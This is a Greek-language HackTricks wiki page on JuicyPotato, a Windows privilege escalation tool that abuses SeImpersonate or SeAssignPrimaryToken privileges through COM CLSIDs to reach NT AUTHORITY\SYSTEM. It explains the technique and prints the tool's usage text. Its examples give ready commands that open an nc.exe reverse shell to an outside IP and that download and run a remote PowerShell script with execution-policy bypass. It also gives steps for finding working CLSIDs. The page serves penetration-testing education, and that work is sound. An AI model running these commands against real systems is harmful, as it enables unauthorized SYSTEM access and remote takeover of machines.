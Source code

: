 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**Το JuicyPotato δεν λειτουργεί** σε Windows Server 2019 και Windows 10 build 1809 και μετά. Ωστόσο, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) μπορούν να χρησιμοποιηθούν για **να εκμεταλλευτούν τα ίδια προνόμια και να αποκτήσουν πρόσβαση επιπέδου `NT AUTHORITY\SYSTEM`**. _**Δείτε:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (κατάχρηση των χρυσών προνομίων) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Μια γλυκιά έκδοση του_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, με λίγο χυμό, δηλαδή **ένα άλλο εργαλείο Τοπικής Κατάχρησης Προνομίων, από Λογαριασμούς Υπηρεσιών Windows σε NT AUTHORITY\SYSTEM**_

#### Μπορείτε να κατεβάσετε το juicypotato από [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Περίληψη <a href="#summary" id="summary"></a>

[**Από το juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) και οι [παραλλαγές του](https://github.com/decoder-it/lonelypotato) εκμεταλλεύονται την αλυσίδα κατάχρησης προνομίων βασισμένη σε [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [υπηρεσία](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) έχοντας τον MiTM listener στο `127.0.0.1:6666` και όταν έχετε `SeImpersonate` ή `SeAssignPrimaryToken` προνόμια. Κατά τη διάρκεια μιας ανασκόπησης build Windows βρήκαμε μια ρύθμιση όπου το `BITS` είχε σκόπιμα απενεργοποιηθεί και η θύρα `6666` είχε καταληφθεί.

Αποφασίσαμε να οπλοποιήσουμε το [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Πείτε γεια στο Juicy Potato**.

> Για τη θεωρία, δείτε [Rotten Potato - Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) και ακολουθήστε την αλυσίδα των συνδέσμων και αναφορών.

Ανακαλύψαμε ότι, εκτός από το `BITS`, υπάρχουν αρκετοί COM servers που μπορούμε να καταχραστούμε. Απλά χρειάζεται να:

1. είναι δυνατό να δημιουργηθούν από τον τρέχοντα χρήστη, συνήθως έναν “χρήστη υπηρεσίας” που έχει προνόμια κατάχρησης
2. να υλοποιούν τη διεπαφή `IMarshal`
3. να εκτελούνται ως ανυψωμένος χρήστης (SYSTEM, Administrator, …)

Μετά από κάποιες δοκιμές, αποκτήσαμε και δοκιμάσαμε μια εκτενή λίστα από [ενδιαφέροντα CLSID’s](http://ohpe.it/juicy-potato/CLSID/) σε πολλές εκδόσεις Windows.

### Juicy λεπτομέρειες <a href="#juicy-details" id="juicy-details"></a>

Το JuicyPotato σας επιτρέπει να:

* **Στόχος CLSID** _επιλέξτε οποιοδήποτε CLSID θέλετε._ [_Εδώ_](http://ohpe.it/juicy-potato/CLSID/) _μπορείτε να βρείτε τη λίστα οργανωμένη κατά OS._
* **Θύρα Listening COM** _ορίστε τη θύρα listening COM που προτιμάτε (αντί της σκληροκωδικοποιημένης 6666)_
* **Διεύθυνση IP Listening COM** _δεσμεύστε τον διακομιστή σε οποιαδήποτε IP_
* **Λειτουργία δημιουργίας διεργασίας** _ανάλογα με τα προνόμια του χρήστη που καταχράται μπορείτε να επιλέξετε από:_
* `CreateProcessWithToken` (χρειάζεται `SeImpersonate`)
* `CreateProcessAsUser` (χρειάζεται `SeAssignPrimaryToken`)
* `και τα δύο`
* **Διεργασία προς εκτέλεση** _εκκινήστε ένα εκτελέσιμο ή σενάριο αν η εκμετάλλευση είναι επιτυχής_
* **Επιχείρημα διεργασίας** _προσαρμόστε τα επιχειρήματα της εκτελούμενης διεργασίας_
* **Διεύθυνση διακομιστή RPC** _για μια κρυφή προσέγγιση μπορείτε να πιστοποιηθείτε σε έναν εξωτερικό διακομιστή RPC_
* **Θύρα διακομιστή RPC** _χρήσιμο αν θέλετε να πιστοποιηθείτε σε έναν εξωτερικό διακομιστή και το firewall μπλοκάρει τη θύρα `135`…_
* **ΛΕΙΤΟΥΡΓΙΑ ΔΟΚΙΜΗΣ** _κυρίως για δοκιμαστικούς σκοπούς, δηλαδή δοκιμή CLSIDs. Δημιουργεί το DCOM και εκτυπώνει τον χρήστη του token. Δείτε_ [_εδώ για δοκιμή_](http://ohpe.it/juicy-potato/Test/)

### Χρήση <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Τελικές σκέψεις <a href="#final-thoughts" id="final-thoughts"></a>

[**Από το juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Εάν ο χρήστης έχει δικαιώματα `SeImpersonate` ή `SeAssignPrimaryToken`, τότε είστε **SYSTEM**.

Είναι σχεδόν αδύνατο να αποτραπεί η κακή χρήση όλων αυτών των COM Servers. Μπορείτε να σκεφτείτε να τροποποιήσετε τα δικαιώματα αυτών των αντικειμένων μέσω του `DCOMCNFG`, αλλά καλή τύχη, αυτό θα είναι προκλητικό.

Η πραγματική λύση είναι να προστατεύσετε ευαίσθητους λογαριασμούς και εφαρμογές που εκτελούνται υπό τους λογαριασμούς `* SERVICE`. Η διακοπή του `DCOM` θα αναστείλει σίγουρα αυτή την εκμετάλλευση, αλλά θα μπορούσε να έχει σοβαρές επιπτώσεις στο υποκείμενο λειτουργικό σύστημα.

Από: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Παραδείγματα

Σημείωση: Επισκεφθείτε [αυτή τη σελίδα](https://ohpe.it/juicy-potato/CLSID/) για μια λίστα με CLSIDs που να δοκιμάσετε.

### Πάρτε ένα nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Εκκίνηση νέου CMD (αν έχετε πρόσβαση RDP)

![](<../../.gitbook/assets/image (300).png>)

## Προβλήματα CLSID

Συχνά, το προεπιλεγμένο CLSID που χρησιμοποιεί το JuicyPotato **δεν λειτουργεί** και η εκμετάλλευση αποτυγχάνει. Συνήθως, απαιτούνται πολλές προσπάθειες για να βρείτε ένα **λειτουργικό CLSID**. Για να αποκτήσετε μια λίστα με CLSIDs για να δοκιμάσετε για ένα συγκεκριμένο λειτουργικό σύστημα, θα πρέπει να επισκεφθείτε αυτή τη σελίδα:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Έλεγχος CLSIDs**

Αρχικά, θα χρειαστείτε μερικά εκτελέσιμα αρχεία εκτός από το juicypotato.exe.

Κατεβάστε [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) και φορτώστε το στη συνεδρία PS σας, και κατεβάστε και εκτελέστε [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Αυτό το σενάριο θα δημιουργήσει μια λίστα με πιθανά CLSIDs για δοκιμή.

Στη συνέχεια, κατεβάστε [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(αλλάξτε τη διαδρομή στη λίστα CLSID και στο εκτελέσιμο juicypotato) και εκτελέστε το. Θα αρχίσει να δοκιμάζει κάθε CLSID, και **όταν αλλάξει ο αριθμός θύρας, θα σημαίνει ότι το CLSID λειτούργησε**.

**Ελέγξτε** τα λειτουργικά CLSIDs **χρησιμοποιώντας την παράμετρο -c**

## Αναφορές

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
